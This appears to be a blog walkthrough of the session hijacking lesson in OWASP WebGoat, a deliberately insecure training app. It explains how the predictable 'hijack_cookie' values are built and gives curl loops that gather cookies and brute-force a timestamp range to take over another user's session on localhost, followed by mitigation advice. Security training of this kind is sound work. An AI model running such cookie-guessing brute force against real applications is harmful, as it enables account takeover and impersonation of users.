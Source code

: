 ```yaml
---
title: "Session Hijacking in OWASP WebGoat"
---
```


Session hijacking, also known as session stealing or session sniffing, is a critical security issue that can compromise the confidentiality and integrity of user data. In this post, we will explore the concept of session hijacking in the context of OWASP WebGoat, a deliberately insecure web application used for security training and testing.

It's important to note that a wealth of resources is already available to guide individuals through the process of solving this lesson. Some of these resources are:

[\[A1\] Hijacking a Session - WebGoat](https://www.youtube.com/watch?v=YO8rsCMVUyY)

[WebGoat Session Hijacking Tutorial: An In-Depth Guide](https://www.youtube.com/watch?v=R5YPRhM5GyE)

My goal is to provide additional details and discuss [how the lesson has been implemented](https://github.com/WebGoat/WebGoat/pull/1114/files), offering specific technical insights into the decisions made, the challenges encountered, the didactic point of view, and, of course, the solution that I consistently incorporate in my implementations— one that remains technology-agnostic.

## Understanding Session Hijacking: An Introduction

Session hijacking, often referred to as session stealing or session sniffing, revolves around exploiting vulnerabilities in the process of maintaining user sessions within web applications. In a typical web application, sessions are established to preserve user state between interactions, allowing for a seamless and personalized user experience. However, the very nature of this mechanism introduces security risks, with session hijacking being a prominent threat.

To execute session hijacking, attackers employ various techniques to intercept or manipulate session data. One common method involves the interception of session cookies, which are used to identify and authenticate users. Through techniques like packet sniffing, man-in-the-middle attacks, or cross-site scripting (XSS), malicious actors can gain unauthorized access to these session identifiers.

The implications of successful session hijacking are severe, as attackers can essentially impersonate legitimate users, accessing sensitive information or performing actions on their behalf. This compromise jeopardizes the confidentiality of user data and compromises the integrity of the application's functionality. Understanding the intricacies of session hijacking is paramount for developers and security practitioners to implement effective countermeasures and safeguard against this pervasive threat.

In the realm of OWASP WebGoat, a purposely insecure environment for educational purposes, session hijacking scenarios are intentionally integrated. Exploring these scenarios not only provides a hands-on experience for understanding the mechanics of session hijacking but also equips individuals with the knowledge needed to fortify web applications against such exploits. As we delve deeper into the practical aspects of session hijacking in the context of WebGoat, we gain insights into the real-world implications and the importance of adopting robust security measures.

## Exploring Session Hijacking in WebGoat: A Practical Exercise

The design of this scenario comprises several key components, offering a comprehensive view of session hijacking in the OWASP WebGoat environment. At the backend, a REST endpoint plays a pivotal role, responsible for collecting credentials through a POST request or, alternatively, by detecting the presence of a cookie named _hijack_cookie_. These collected data are then transmitted to the Authentication Provider, the system responsible for validating authentication.

Within the CAS (Central Authentication Service) package, the Authentication Provider manages an intentionally fragile implementation of Principal as an entity. This deliberately vulnerable mechanism controls the generation and verification of cookie identifiers, providing a realistic simulation of insecure authentication practices. The fragility of this system is crucial for educational purposes, allowing users to understand the intricacies of flawed authentication mechanisms and their susceptibility to exploitation.

Moving to the frontend, users encounter a typical login form. Here, if the cookie is not present, credentials must be entered to initiate the login process.

As we delve into the specifics of this exercise, we gain valuable insights into the underlying vulnerabilities and flawed design choices that contribute to the feasibility of session hijacking. This practical exploration equips individuals with the knowledge needed to recognize and address similar vulnerabilities in real-world web applications, reinforcing the educational value of OWASP WebGoat as a training platform for web security.

## Session Hijacking Exposed: Exploiting Vulnerabilities

Initiating the exploration, the first point of interest is the authentication panel:

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/wg-session-hijacking/loginform.png" />

Trying to log in triggers the creation of a cookie named _hijack_cookie_, with a value structured as follows:

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/wg-session-hijacking/cookielist.png" />

`3814082160704930327-1636910266991`

This unassuming cookie conceals the doorway to the vulnerability we are poised to exploit.

The _hijack_cookie_ is structured in two distinct parts, adhering to the following format:

`<sequential number>-<Unix epoch time>`

The initial segment of the cookie value is an identifier that increments with each instance of the cookie, while the portion following the dash represents a Unix epoch timestamp calculated at the time of the request.

An intriguing observation lies in occasional gaps within the initial value of the _hijack_cookie_, where one or more numbers are conspicuously absent. Such omissions signify instances where a user likely logged into the system, resulting in the generation of an authorized cookie specifically assigned to them.

Identifying these gaps becomes straightforward when we possess knowledge of the cookie values bracketing the valid user cookie. This understanding unveils a subtle yet exploitable pattern in the _hijack_cookie_ sequence.

To commence the exploitation process, send a few requests to the _/WebGoat/HijackSession/login_ endpoint without setting the _hijack_cookie_. This initial step is crucial as it allows us to gauge the application's response and begin the reconnaissance phase before launching the brute force attack. By understanding the behavior of the system when no _hijack_cookie_ is provided, we can strategically plan our approach for the subsequent stages of the attack.

```bash
for i in $(seq 1 10); do
curl 'http://localhost:8080/WebGoat/HijackSession/login'   \
-H 'Connection: keep-alive'   \
-H 'Accept: */*'   \
-H 'X-Requested-With: XMLHttpRequest'   \
-H 'User-Agent: any'   \
-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'   \
-H 'Origin: http://localhost:8080'   \
-H 'Sec-Fetch-Site: same-origin'   \
-H 'Sec-Fetch-Mode: cors'   \
-H 'Sec-Fetch-Dest: empty'   \
-H 'Referer: http://localhost:8080/WebGoat/start.mvc'   \
-H 'Accept-Language: en-US,en;q=0.9'   \
-H "Cookie: JSESSIONID=T_kki1UnFP7XTxdEqX-XmZ25qgmKDFtqyoeHyQhW"   \
--data-raw 'username=&password='   \
--compressed \
--output /dev/null \
-v
done
```

The following cookies are received:

```bash
<...>
< Set-Cookie: hijack_cookie=3026815832223943295-1636913556701; path=/WebGoat; secure
< Set-Cookie: hijack_cookie=3026815832223943296-1636913556848; path=/WebGoat; secure
< Set-Cookie: hijack_cookie=3026815832223943297-1636913556998; path=/WebGoat; secure
< Set-Cookie: hijack_cookie=3026815832223943299-1636913557143; path=/WebGoat; secure
<...>
```

Note: For the successful execution of this brute force attack, ensure that a valid WebGoat _JSESSIONID_ is utilized. Obtain this JSESSIONID by logging into WebGoat through the standard authentication process.

It becomes apparent that the _hijack_cookie_ starting with 3026815832223943298 is conspicuously absent. This specific value is the target of our brute force efforts, with the goal of figure out the second part of the cookie.

So our timestamp is in a range between 1636913556998 and 1636913557143. Now, the next step involves implementing a program capable of conducting a brute force attack within this time frame. This program will systematically iterate through potential values, allowing us to pinpoint the exact second part of the _hijack_cookie_ and ultimately exploit the vulnerability.

```bash
for i in $(seq 1636913556998 1636913557143); do
curl 'http://localhost:8080/WebGoat/HijackSession/login'   \
-H 'Connection: keep-alive'   \
-H 'Accept: */*'   \
-H 'X-Requested-With: XMLHttpRequest'   \
-H 'User-Agent: any'   \
-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'   \
-H 'Origin: http://localhost:8080'   \
-H 'Sec-Fetch-Site: same-origin'   \
-H 'Sec-Fetch-Mode: cors'   \
-H 'Sec-Fetch-Dest: empty'   \
-H 'Referer: http://localhost:8080/WebGoat/start.mvc'   \
-H 'Accept-Language: en-US,en;q=0.9'   \
-H "Cookie: JSESSIONID=T_kki1UnFP7XTxdEqX-XmZ25qgmKDFtqyoeHyQhW; hijack_cookie=3026815832223943298-"$i""   \
--data-raw 'username=&password='   \
--compressed
done
```

In our pursuit of the _hijack_cookie_ one of the numerous requests generated during the brute force attack will inevitably yield a valid login. The successful identification of this request will mark the lesson as completed.

## Insights: Mitigating Session Hijacking Risks

The exploration of session hijacking in the context of WebGoat has illuminated critical vulnerabilities inherent in authentication mechanisms. To safeguard web applications from such exploits, developers and security practitioners should prioritize the implementation of robust security measures.

Firstly, it's imperative to employ secure session management practices. Utilize session tokens with sufficient entropy, employ secure protocols like HTTPS to encrypt communication, and regularly rotate session identifiers to minimize the window of opportunity for attackers.

Additionally, stringent access controls must be enforced. Validate user credentials thoroughly and employ multi-factor authentication to add an extra layer of defense. Regularly audit and monitor user sessions to detect and respond promptly to any suspicious activity.

Educating development teams and security professionals on common attack vectors, such as session hijacking, is crucial. Platforms like OWASP WebGoat provide invaluable hands-on experience for understanding these threats. Regular training and awareness programs help in fostering a security-first mindset.
